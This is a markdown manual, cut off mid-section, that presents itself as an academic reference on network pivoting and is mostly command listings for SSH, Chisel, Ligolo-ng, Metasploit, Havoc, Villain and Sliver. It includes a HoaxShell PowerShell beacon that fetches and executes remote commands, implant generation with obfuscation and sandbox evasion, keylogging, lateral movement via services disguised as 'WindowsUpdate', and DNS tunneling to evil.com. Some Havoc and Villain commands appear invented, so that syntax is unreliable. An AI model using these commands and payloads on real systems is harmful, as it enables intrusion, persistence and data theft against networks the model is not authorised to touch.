



# Comprehensive Network Pivoting in Adversarial Operations: An Academic Reference Manual

## Abstract

This comprehensive academic reference presents an exhaustive analysis of network pivoting methodologies, tools, and techniques employed in modern adversarial operations. We examine seventeen primary pivoting frameworks across multiple platforms, providing detailed implementation examples, operational security considerations, and advanced detection evasion techniques. This manual serves as both theoretical foundation and practical implementation guide for cybersecurity researchers and practitioners.

## 1. Introduction

Network pivoting constitutes the foundational technique for lateral movement within segmented network infrastructures. This methodology enables adversaries to leverage compromised intermediary systems as communication conduits to access otherwise isolated network segments, effectively circumventing perimeter defenses and network isolation policies.

### 1.1 Pivoting Taxonomy

Network pivoting methodologies can be systematically categorized into four primary classes:

1. **Port Forwarding**: Direct TCP/UDP port redirection through compromised hosts
2. **Protocol Tunneling**: Encapsulation of network traffic within alternative communication protocols
3. **Proxy Chain Establishment**: Sequential routing through multiple intermediary proxy systems
4. **Virtual Network Creation**: Implementation of virtual network interfaces for transparent communication

### 1.2 Common Pivoting Scenarios

The following diagram illustrates typical network architectures encountered in adversarial operations:



### 1.3 Evaluation Framework

Each pivoting methodology is evaluated across seven critical dimensions:

| Framework | Stealth | Protocols | Platform | Complexity | Transparency | Persistence | Evasion |
|-----------|---------|-----------|----------|------------|--------------|-------------|---------|
| SSH | Medium | TCP | *nix/Win | Low | Medium | High | Medium |
| Chisel | High | TCP/UDP | Cross | Medium | Medium | High | High |
| Ligolo-ng | High | TCP/UDP | Cross | Medium | High | Medium | High |
| Metasploit | Low | TCP | Cross | Low | Low | Medium | Low |
| Havoc C2 | High | TCP/HTTP(S) | Cross | Medium | High | High | High |
| Villain | High | TCP/HTTP(S) | Cross | Low | Medium | High | High |
| Sliver | High | Multi | Cross | Medium | High | High | Very High |
| Socat | Medium | TCP/UDP | *nix | High | Low | Low | Medium |
| Netsh | Medium | TCP | Windows | Medium | Medium | High | Medium |
| Plink | Medium | TCP | Windows | Low | Medium | High | Medium |
| rpivot | High | HTTP(S) | Cross | Medium | Medium | Medium | High |
| reGeorg | High | HTTP(S) | Web | High | Low | Low | High |
| Stunnel | High | TCP/TLS | Cross | Medium | Medium | High | High |
| dnscat2 | Very High | DNS | Cross | High | Low | Medium | Very High |


:::note Note
Evaluation criteria are based on operational field experience, security research publications, and comparative analysis of tool capabilities in controlled environments. Ratings represent relative assessments under typical deployment scenarios and may vary based on specific implementation, configuration, and defensive posture of target networks.
:::

### 1.4 Tool Selection Decision Framework

The following flowchart provides a systematic approach for selecting appropriate pivoting tools based on operational constraints:



:::note
This decision framework presents a simplified selection process focusing on primary pivoting tools. Modern C2 frameworks like Villain and Sliver offer multi-protocol support and can be used across multiple paths in this flowchart. For example, Sliver supports HTTP/HTTPS, DNS, mTLS, and WireGuard protocols, while Villain excels in collaborative scenarios with HTTP/HTTPS tunneling. The framework prioritizes tool selection based on immediate operational constraints rather than comprehensive capability assessment.
:::

## 2. SSH-Based Pivoting Methodologies

:::note
The following SSH commands assume you have installed OpenSSH on all relevant hosts. Substitute all placeholder values (e.g., user, pivot_host, 192.168.1.100) with those specific to your environment. Ensure you have valid credentials and network connectivity between client and target hosts.
:::

SSH represents the most ubiquitous and well-documented pivoting mechanism, leveraging the native capabilities of the OpenSSH implementation for network traffic redirection.

### 2.1 Local Port Forwarding

Local port forwarding establishes a listening port on the client machine that forwards connections to a destination through the SSH server:

```bash
# Basic local port forwarding
ssh -L [bind_address:]local_port:destination_host:destination_port user@ssh_server

# Forward local port 8080 to internal web server
ssh -L 8080:192.168.1.100:80 user@pivot_host

# Bind to specific interface (security consideration)
ssh -L 127.0.0.1:8080:192.168.1.100:80 user@pivot_host

# Forward multiple ports simultaneously
ssh -L 8080:192.168.1.100:80 -L 3389:192.168.1.101:3389 user@pivot_host

# Background execution with compression
ssh -fN -C -L 8080:192.168.1.100:80 user@pivot_host
```

### 2.2 Remote Port Forwarding

Remote port forwarding creates a listening port on the SSH server that forwards connections back to the client:

```bash
# Basic remote port forwarding
ssh -R [bind_address:]remote_port:destination_host:destination_port user@ssh_server

# Forward pivot host port 8080 to local web server
ssh -R 8080:127.0.0.1:80 user@pivot_host

# Enable GatewayPorts for external access
ssh -o GatewayPorts=yes -R 8080:127.0.0.1:80 user@pivot_host

# Reverse shell establishment
ssh -R 4444:127.0.0.1:4444 user@pivot_host

# Database access through reverse tunnel
ssh -R 3306:database_server:3306 user@pivot_host
```

### 2.3 Dynamic Port Forwarding (SOCKS Proxy)

Dynamic port forwarding establishes a SOCKS proxy server on the client machine:

```bash
# Basic SOCKS proxy on port 9050
ssh -D 9050 user@pivot_host

# SOCKS proxy with specific binding
ssh -D 127.0.0.1:9050 user@pivot_host

# Background SOCKS proxy with compression
ssh -fN -C -D 9050 user@pivot_host

# SOCKS proxy with connection multiplexing
ssh -M -S /tmp/ssh-socket -fN -D 9050 user@pivot_host

# Reuse existing connection
ssh -S /tmp/ssh-socket -O check user@pivot_host
```

### 2.4 Advanced SSH Configuration

```bash
# ~/.ssh/config optimization for pivoting
Host pivot
    HostName pivot_host
    User username
    Port 22
    DynamicForward 9050
    LocalForward 8080 192.168.1.100:80
    ControlMaster auto
    ControlPath ~/.ssh/sockets/%r@%h-%p
    ControlPersist 600
    Compression yes
    ServerAliveInterval 60
    ServerAliveCountMax 3
    TCPKeepAlive yes
```

### 2.5 SSH Tunneling Through HTTP Proxies

```bash
# Connect through HTTP proxy using ProxyCommand
ssh -o ProxyCommand='nc --proxy-type http --proxy proxy_host:8080 %h %p' user@target

# Using corkscrew for HTTP proxy traversal
ssh -o ProxyCommand='corkscrew proxy_host 8080 %h %p' user@target

# SOCKS proxy traversal
ssh -o ProxyCommand='nc --proxy-type socks5 --proxy socks_proxy:1080 %h %p' user@target
```

## 3. Chisel Framework: HTTP-Tunneled Network Pivoting

:::note
Ensure the Chisel binary is available on both server and client machines before executing these commands. Replace server_ip, username:password, ports, and interface names to match your environment.
:::

Chisel implements a fast TCP/UDP tunnel transported over HTTP, secured via SSH-like encryption, optimized for restrictive network environments.

### 3.1 Server Configuration and Management

```bash
# Basic server with authentication
chisel server --port 8080 --auth username:password

# Server with reverse tunneling capability
chisel server --port 8080 --auth username:password --reverse

# HTTPS server with custom certificates
chisel server --port 443 --key private.key --cert cert.pem --auth user:pass

# Server with specific binding interface
chisel server --host 0.0.0.0 --port 8080 --auth user:pass

# Server with logging configuration
chisel server --port 8080 --auth user:pass --log-level debug --logfile chisel.log

# Server with backend restrictions
chisel server --port 8080 --auth user:pass --backend="127.0.0.1:*"
```

### 3.2 Client Configuration Methodologies

```bash
# Basic SOCKS proxy establishment
chisel client --auth username:password server_ip:8080 R:socks

# SOCKS proxy on specific port
chisel client --auth username:password server_ip:8080 R:5000:socks

# Local port forwarding
chisel client --auth username:password server_ip:8080 3306:internal_db:3306

# Remote port forwarding (reverse)
chisel client --auth username:password server_ip:8080 R:8000:127.0.0.1:80

# Multiple tunnel establishment
chisel client server_ip:8080 3306:db:3306 8888:web:80 1433:sql:1433 R:socks

# UDP tunneling support
chisel client server_ip:8080 R:53:dns_server:53/udp
```

### 3.3 Advanced Chisel Configurations

```bash
# Connection through corporate proxies
chisel client --auth user:pass --proxy https://corp-proxy:8080 server_ip:8080 R:socks

# Fingerprint verification for security
chisel client --fingerprint xx:xx:xx:xx --auth user:pass server_ip:8080 R:socks

# Keepalive for unstable connections
chisel client --keepalive 10s --max-retry-count 5 server_ip:8080 R:socks

# Custom headers for stealth
chisel client --header "User-Agent: Mozilla/5.0" server_ip:8080 R:socks

# IPv6 support
chisel client --auth user:pass [::1]:8080 R:socks

# Compression enabled
chisel client --auth user:pass server_ip:8080 R:socks --compression
```

## 4. Ligolo-ng: Transparent Network Tunneling

:::note
The following examples require both Ligolo-ng proxy and agent binaries to be compiled and accessible on the attacker and target hosts. IP addresses, TUN interface names, and certificate files should be adjusted as per your lab or operational setup.
:::

Ligolo-ng implements a sophisticated userland networking stack through TUN interface manipulation, providing transparent network access without SOCKS proxy requirements.

### 4.1 Infrastructure Setup and Configuration

```bash
# Proxy server preparation (Linux)
sudo ip tuntap add dev ligolo mode tun
sudo ip link set ligolo up
sudo ip route add 192.168.56.0/24 dev ligolo

# Proxy server with custom TUN interface
sudo ip tuntap add dev tun_pivot mode tun
sudo ip link set tun_pivot up
sudo ip addr add 192.168.255.1/24 dev tun_pivot

# Start proxy with self-signed certificate
./proxy -selfcert

# Start proxy with custom certificate
./proxy -certfile server.crt -keyfile server.key

# Proxy with custom listening address
./proxy -laddr 0.0.0.0:11601 -selfcert

# Agent connection establishment
./agent -connect attacker_ip:11601 -ignore-cert

# Agent with retry mechanism
./agent -connect attacker_ip:11601 -ignore-cert -retry

# Bind agent (listening mode)
./agent -listen 0.0.0.0:11601 -ignore-cert

# Agent with custom socket timeout
./agent -connect attacker_ip:11601 -ignore-cert -timeout 30s
```

### 4.2 Session Management and Network Configuration

```bash
# Ligolo-ng interactive commands

# List all connected agents
ligolo-ng » session

# Select specific agent session
ligolo-ng » session 1

# Display agent network information
agent » ifconfig

# Start tunneling session
agent » start

# Stop active tunnel
agent » stop

# Add route to specific network
agent » tunnel_add --tun ligolo --route 10.10.10.0/24

# Add multiple network routes
agent » tunnel_add --tun ligolo --route 172.16.0.0/16
agent » tunnel_add --tun ligolo --route 10.0.0.0/8

# Remove specific route
agent » tunnel_del --tun ligolo --route 10.10.10.0/24
```

### 4.3 Advanced Tunneling Features

```bash
# Port forwarding through agent
agent » listener_add --addr 0.0.0.0:8000 --to 10.0.0.10:80 --tcp

# UDP service forwarding
agent » listener_add --addr 0.0.0.0:53 --to 10.0.0.53:53 --udp

# Reverse port forwarding
agent » listener_add --addr 0.0.0.0:443 --to 192.168.1.100:443 --tcp

# List active listeners
agent » listener_list

# Remove specific listener
agent » listener_del --id 1

# Agent relay for multi-hop pivoting
./agent -connect first_pivot:11601 -ignore-cert -relay

# Agent with SOCKS5 proxy
./agent -connect attacker_ip:11601 -ignore-cert -socks5 127.0.0.1:1080

# Command execution on agent host
agent » shell whoami
agent » shell "netstat -an | grep LISTEN"
agent » shell "ipconfig /all"
```

## 5. Metasploit Framework: Comprehensive Pivoting Integration

:::note
The following commands assume you have a running Metasploit Framework instance and Meterpreter payloads are properly established. Adjust network addresses, session IDs, and handler parameters to match your engagement.
:::

The Metasploit Framework provides extensive pivoting capabilities through integrated session management, automated routing, and payload coordination.

### 5.1 Session-Based Routing Configuration

```bash
# Manual route addition
msf > route add 10.10.10.0/24 1

# Automated route discovery and configuration
msf > use post/multi/manage/autoroute
msf post(autoroute) > set SESSION 1
msf post(autoroute) > set SUBNET 10.10.10.0
msf post(autoroute) > set NETMASK 255.255.255.0
msf post(autoroute) > run

# Automatic network discovery
meterpreter > run autoroute -auto

# Add specific subnet routes
meterpreter > run autoroute -s 192.168.1.0/24
meterpreter > run autoroute -s 172.16.0.0/16

# View current routing table
msf > route print

# Delete specific route
msf > route delete 10.10.10.0/24 1

# Flush all routes for session
msf > route flush 1
```

### 5.2 SOCKS Proxy Implementation

```bash
# Start SOCKS4 proxy
msf > use auxiliary/server/socks4a
msf auxiliary(socks4a) > set SRVPORT 9050
msf auxiliary(socks4a) > run -j

# Start SOCKS5 proxy with authentication
msf > use auxiliary/server/socks_proxy
msf auxiliary(socks_proxy) > set SRVPORT 9050
msf auxiliary(socks_proxy) > set VERSION 5
msf auxiliary(socks_proxy) > set USERNAME user
msf auxiliary(socks_proxy) > set PASSWORD pass
msf auxiliary(socks_proxy) > run -j

# SOCKS proxy with custom interface binding
msf auxiliary(socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(socks_proxy) > run -j

# Stop SOCKS proxy
msf > jobs -k [job_id]
```

### 5.3 Port Forwarding Mechanisms

```bash
# Local port forwarding through Meterpreter
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.10

# Local port forwarding with specific interface
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100 -L 127.0.0.1

# Reverse port forwarding
meterpreter > portfwd add -R -l 8000 -p 80 -L 192.168.1.100

# List active port forwards
meterpreter > portfwd list

# Delete specific port forward
meterpreter > portfwd delete -l 3389 -p 3389 -r 10.10.10.10

# Flush all port forwards
meterpreter > portfwd flush
```

### 5.4 Advanced Metasploit Pivoting Techniques

```bash
# Multi-session routing
msf > route add 10.10.10.0/24 1
msf > route add 10.20.30.0/24 2

# Session passing between handlers
meterpreter > sessions -k

# Background session for pivoting
meterpreter > background

# Session upgrading for better pivoting
msf > use post/multi/manage/shell_to_meterpreter
msf post(shell_to_meterpreter) > set SESSION 1
msf post(shell_to_meterpreter) > run

# Persistent route establishment
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set AutoRunScript post/multi/manage/autoroute
```

## 6. Havoc C2: Modern Command and Control Pivoting

:::note
Havoc C2 operations require a configured and running Havoc server. Ensure you generate appropriate agents and listeners for your specific architecture and scenario. Replace hostnames, ports, and agent parameters accordingly.
:::

Havoc represents a state-of-the-art command and control framework with sophisticated pivoting capabilities designed for advanced persistent threat simulation.

### 6.1 Agent Deployment and Configuration

```bash
# Generate pivot-capable agent
havoc --generate-agent --arch x64 --format exe --sleep 5 --jitter 10 --pivot

# Deploy agent with custom configuration
havoc --agent-config sleep=10,jitter=20,killdate=2024-12-31

# Deploy via existing demon session
demon> spawn --arch x64 --format exe --listener pivot_tcp

# Agent with injection capabilities
demon> inject --pid 1234 --arch x64 --format shellcode
```

### 6.2 TCP Pivot Implementation

```bash
# Establish TCP pivot listener
demon> pivot tcp --lhost 192.168.1.100 --lport 4444

# Connect new agent through pivot
demon> pivot tcp --rhost pivot_host --rport 4444

# Bind TCP pivot on compromised host
demon> pivot tcp --bind --lport 443 --host 0.0.0.0

# List active pivots
demon> pivot list

# Remove specific pivot
demon> pivot remove --id 1
```

### 6.3 SOCKS Proxy Configuration

```bash
# Start SOCKS5 proxy through agent
demon> socks start --port 1080 --host 127.0.0.1

# SOCKS proxy with authentication
demon> socks start --port 1080 --user admin --pass secret

# Configure routing through SOCKS
demon> route add --network 10.10.10.0/24 --interface socks --port 1080

# Stop SOCKS proxy
demon> socks stop --port 1080

# List SOCKS proxies
demon> socks list
```

### 6.4 Advanced Havoc Pivoting Features

```bash
# Named pipe pivoting for same-host lateral movement
demon> pivot smb --pipe-name "msf-pipe" --host target_host

# HTTP(S) tunnel with custom user agent
demon> pivot http --host proxy_host --port 8080 --user-agent "Mozilla/5.0"

# DNS tunneling for covert communication
demon> pivot dns --domain evil.com --server 8.8.8.8

# Session passing between agents
demon> session pass --session-id 2 --pivot-id 1

# Session cloning for redundancy
demon> session clone --session-id 1 --method tcp --host 192.168.1.200

# P2P mesh networking
demon> pivot p2p --enable --port 6666 --peers "192.168.1.100:6666"
```

## 7. Villain Framework: Collaborative C2 with Session Sharing

:::note
Villain requires Python 3 and is available in Kali Linux repositories. Replace IP addresses, usernames, passwords, and port numbers with values appropriate to your environment. The collaborative features require multiple Villain instances running on different machines.
:::

Villain is a high-level stage 0/1 C2 framework that excels at managing multiple reverse TCP and HoaxShell-based shells while providing unique collaborative capabilities for team operations.

### 7.1 Framework Installation and Setup

```bash
# Install from Kali repositories
sudo apt install villain

# Manual installation from source
git clone https://github.com/t3l3machus/Villain
cd Villain
pip3 install -r requirements.txt

# Start Villain server
villain

# Start with custom ports
villain -p 65001 -x 8080 -n 4444 -f 8888

# Start with SSL support for HoaxShell HTTPS
villain -c cert.pem -k key.pem
```

### 7.2 Payload Generation and Management

```bash
# Generate Windows PowerShell payload
Villain > generate os=windows lhost=192.168.1.100

# Generate Linux payload
Villain > generate os=linux lhost=192.168.1.100

# Generate HoaxShell payload (HTTP)
Villain > generate os=windows lhost=192.168.1.100 payload=hoaxshell

# Generate HoaxShell HTTPS payload
Villain > generate os=windows lhost=192.168.1.100 payload=hoaxshell-ssl

# List all backdoor payloads
Villain > backdoors

# List active sessions
Villain > sessions
```

### 7.3 Session Management and Interaction

```bash
# Connect to a session
Villain > shell 1

# Execute commands in pseudo-shell
shell > whoami
shell > ipconfig /all
shell > netstat -an

# Upload files via HTTP File Smuggler
shell > upload /path/to/local/file.exe

# Inject and execute scripts fileless
shell > inject /path/to/script.ps1

# Invoke ConPtyShell for fully interactive shell
Villain > conptyshell 1

# Exit without terminating sessions
Villain > flee
```

### 7.4 Collaborative Features and Sibling Servers

```bash
# Connect to another Villain instance
Villain > connect 192.168.1.200:65001

# Share sessions with connected siblings
Villain > share

# Send messages to all connected siblings
Villain > #Team message here

# List connected sibling servers
Villain > siblings

# Disconnect from sibling
Villain > disconnect 192.168.1.200
```

### 7.5 Advanced Villain Techniques

```bash
# Session persistence and metadata
# Villain automatically stores session metadata
# Allows re-establishment of HoaxShell sessions

# Purge all session metadata
Villain > purge

# Custom obfuscation for AV evasion
# Edit templates in /Core/payload_templates/
# Replace with obfuscated versions

# Background execution with compression
villain -p 65001 --quiet --compress

# Multi-handler configuration
# config.yml example:
handlers:
  - port: 8080
    type: http
    auth: user:pass
  - port: 443
    type: https
    cert: cert.pem
    key: key.pem
```

### 7.6 HoaxShell Integration

HoaxShell payloads use HTTP(S) to establish beacon-like reverse shells, making them particularly effective against restrictive firewalls:

```powershell
# Example HoaxShell payload structure (simplified)
$s='192.168.1.100:8080';
$i='session-id';
while($true){
    $c=(Invoke-WebRequest -UseBasicParsing -Uri $s -Headers @{"Authorization"=$i}).Content;
    if($c -ne 'None') {
        $r=Invoke-Expression $c 2>&1 | Out-String;
        Invoke-WebRequest -Uri $s -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($r))
    }
    Start-Sleep -Seconds 0.8
}
```

## 8. Sliver Framework: Modern Go-Based C2 with Advanced Pivoting

:::note
Sliver requires downloading the appropriate binary for your platform from the official releases. Replace all example IPs, domains, and file paths with your specific values. Session mode is required for pivoting and SOCKS proxy features.
:::

Sliver is an open-source, cross-platform C2 framework written in Go, providing fast, portable, and extensible capabilities for adversarial operations.

### 8.1 Server Setup and Configuration

```bash
# Download and install Sliver
wget https://github.com/BishopFox/sliver/releases/download/v1.5.x/sliver-server_linux
chmod +x sliver-server_linux
./sliver-server_linux

# Start server in daemon mode
./sliver-server_linux daemon

# Configure multiplayer mode
./sliver-server_linux operator --name operator1 --lhost 192.168.1.100 --lport 31337

# Connect as operator
./sliver-client_linux --config operator1.cfg
```

### 8.2 Listener Configuration

```bash
# Start HTTP listener
sliver > http --domain example.com --lhost 192.168.1.100 --lport 80

# Start HTTPS listener with custom certificate
sliver > https --domain secure.example.com --lhost 192.168.1.100 --lport 443 --cert cert.pem --key key.pem

# Start DNS listener
sliver > dns --domains example.com --lhost 192.168.1.100

# Start mutual TLS listener
sliver > mtls --lhost 192.168.1.100 --lport 8888

# Start WireGuard listener
sliver > wg --lhost 192.168.1.100 --lport 51820

# List active listeners
sliver > jobs
```

### 8.3 Implant Generation

```bash
# Generate session implant (interactive)
sliver > generate --http example.com --os windows --arch amd64 --format exe

# Generate beacon implant (callback intervals)
sliver > generate beacon --http example.com --os windows --arch amd64 --seconds 60 --jitter 10

# Generate staged payload
sliver > generate stager --http example.com --os windows --arch amd64 --format shellcode

# Generate implant with custom settings
sliver > generate --http example.com --os linux --arch amd64 --name "custom-implant" --debug --skip-symbols

# Service implant for persistence
sliver > generate --http example.com --os windows --format service --service-name "WindowsUpdate"
```

### 8.4 Pivoting and Network Tunneling

Sliver session implants allow operators to create SOCKS5 proxies and pivots for tunneling traffic through compromised hosts:

```bash
# Select session for pivoting
sliver > use [session-id]

# Start SOCKS5 proxy
sliver (session) > socks5 start --host 127.0.0.1 --port 1080

# List active SOCKS proxies
sliver > socks5

# Stop SOCKS proxy
sliver (session) > socks5 stop -i [proxy-id]

# Port forwarding
sliver (session) > portfwd add --remote 192.168.2.100:3389 --local :3389

# List port forwards
sliver (session) > portfwd

# Create pivot listener
sliver (session) > pivots tcp --bind 192.168.2.100:9090

# Generate pivot implant
sliver > generate --tcp-pivot 192.168.2.100:9090
```

### 8.5 Advanced Sliver Operations

```bash
# Process injection and migration
sliver (session) > migrate [pid]

# Execute .NET assembly in memory
sliver (session) > execute-assembly /path/to/assembly.exe

# Load and execute BOF (Beacon Object File)
sliver (session) > bof /path/to/bof.o

# Screenshot capture
sliver (session) > screenshot

# Keylogger
sliver (session) > keylogger start
sliver (session) > keylogger dump

# Token manipulation
sliver (session) > impersonate [username]

# Lateral movement via psexec
sliver (session) > psexec --host 192.168.2.101 --service-name "UpdateService" --service-desc "Windows Update"
```

### 8.6 Beacon Management

Beacons check in with the server at configurable intervals, making them less noisy than session implants:

```bash
# Interact with beacon
sliver > use [beacon-id]

# Check beacon tasks
sliver (beacon) > tasks

# Fetch task results
sliver (beacon) > tasks fetch [task-id]

# Reconfigure beacon
sliver (beacon) > reconfig --interval 120 --jitter 30

# Execute commands
sliver (beacon) > execute whoami
sliver (beacon) > shell "net user"
```

### 8.7 Detection Evasion Features

```bash
# Traffic encryption (built-in)
# All C2 traffic encrypted independently of transport protocol

# Canary domains for sandbox detection
sliver > generate --http example.com --canary google.com,microsoft.com

# Custom obfuscation
sliver > generate --http example.com --os windows --obfuscate

# Traffic profiles
sliver > profiles new --name "chrome" --format http
sliver > profiles set-header "chrome" "User-Agent" "Mozilla/5.0 Chrome/91.0"
```

### 8.8 Multi-Hop Pivot Chains

Pivots can be arbitrarily nested, allowing traffic to route through multiple compromised hosts:

```bash
# Establish first pivot
sliver > use session-1
sliver (session-1) > pivots tcp --bind 10.10.10.100:8888

# Generate implant for second hop
sliver > generate --tcp-pivot 10.10.10.100:8888 --name "hop2"

# After second implant connects, create another pivot
sliver > use session-2
sliver (session-2) > pivots tcp --bind 172.16.1.50:9999

# Generate implant for third hop
sliver > generate --tcp-pivot 172.16.1.50:9999 --name "hop3"

# Result: Attacker → Session-1 → Session-2 → Session-3
```

## 9. Windows-Specific Pivoting Tools

:::note
These sections assume you have administrative privileges on the Windows host. Substitute IP addresses, ports, usernames, and file paths as required by your target environment. Ensure all binaries (e.g., Plink, PowerShell scripts) are accessible on the system.
:::

### 9.1 Netsh Port Forwarding

Windows netsh provides native port forwarding capabilities without requiring additional tools:

```cmd
# Enable IP forwarding
netsh interface ipv4 set global forwarding=enabled

# Add port forwarding rule
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.1.100

# Forward RDP through pivot
netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.10

# Show all port forwarding rules
netsh interface portproxy show all

# Delete specific rule
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=127.0.0.1

# Reset all port forwarding rules
netsh interface portproxy reset

# Advanced rule with specific interface
netsh interface portproxy add v4tov4 listenport=443 listenaddress=192.168.1.100 connectport=443 connectaddress=10.0.0.100
```

### 9.2 Plink (PuTTY Link) Implementation

Plink provides command-line SSH connectivity for Windows environments:

```cmd
# Basic SOCKS proxy establishment
plink.exe -ssh -D 9050 user@pivot_host

# Local port forwarding
plink.exe -ssh -L 8080:192.168.1.100:80 user@pivot_host

# Remote port forwarding
plink.exe -ssh -R 8080:127.0.0.1:80 user@pivot_host

# Background execution with key authentication
